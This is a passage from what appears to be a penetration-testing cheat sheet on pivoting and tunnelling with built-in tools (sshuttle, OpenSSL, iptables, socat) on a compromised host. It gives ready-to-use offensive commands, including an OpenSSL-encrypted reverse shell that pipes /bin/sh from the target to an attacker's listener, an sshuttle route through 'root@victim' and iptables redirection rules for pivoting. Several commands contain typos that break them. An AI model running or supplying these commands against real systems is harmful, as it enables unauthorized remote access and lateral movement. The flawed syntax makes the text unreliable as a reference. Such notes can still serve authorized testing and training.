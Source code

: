 This command specifies the SSH key to use (~/.ssh/id_rsa) when connecting to the remote server.

### Route dns queries through proxy

```bash 
sshuttle -dns -vv -r root@victim 0/0
```

## OpenSSL
Very wide spread and great for Living of The Land. This command-line application usually is used to perform cryptographic tasks, such as creating and handling certificates and related files. With some creativity OpenSSL can also used in a different way

### Generate a new RSA key & create certificates
```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

### Start a listener on local host
```bash
openssl s_server -quiet -key.pem -cert cert.pem -port [LPORT]
```

### Connect from target to listening port
```bash
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect [LHOST]:[LPORT] > /tmp/s; rm /tmp/s
```

## iptables 
Another option with Living of the Land character is iptables. This is giving a lot of options to do powerful pivoting while on the other hand ultimately can lock you out if done a mistake. So better be careful on this ones :) 

### Enable port forwarding in the kernel
```bash
echo 1 | sudo tee /proc/sys/ipv4/ip_forward
```

### Create a rule to redirect matching traffic on the same host
```bash
iptables -t nat -A PREROUTING -i [interface] -p tcp -dport [port_a] -j REDIRECT --to-port [port_b]
```

### Create a rule to redirect matching traffic to a different host
```bash
iptables -t nat -A PREROUTING -p tcp -s 192.168.1.2 --sport 1234:4321 -d 192.168.100.2 --dport 22
```
## socat
Socat if installed on the target machine is another great way for tunneling while living of the land. 
